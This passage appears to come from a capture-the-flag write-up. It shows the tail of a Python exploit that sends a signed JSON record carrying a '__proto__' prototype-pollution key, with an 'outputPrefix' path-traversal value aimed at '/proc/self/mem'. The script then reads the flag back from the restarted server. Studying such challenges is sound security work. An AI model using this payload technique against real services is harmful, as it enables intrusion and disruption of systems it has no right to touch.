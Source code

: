 ```py
            "signed.name":"jeff",
            "signed.animalType":"emu",
            "signed.age":12,
            "signed.crime":"assault",
            "signed.description":"clotheslined someone with their neck",
            "signed.start":"2024-03-02T10:45:01Z",
            "signed.release":"2054-03-02T10:45:01Z",
            "signed.__proto__": {
                "outputPrefix":"../../../../proc/self/mem"
            }
        },
        "signature": sig
    })
except requests.exceptions.ConnectionError:
    pass

# 4. get flag (assuming server takes <5 seconds to come back up)
print("waiting...")
import time
time.sleep(5)
print("flag:", list(requests.get(host + "/examples").json()["examples"][0]["data"].keys())[0][:-len(".name")])
```

`flag: DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}`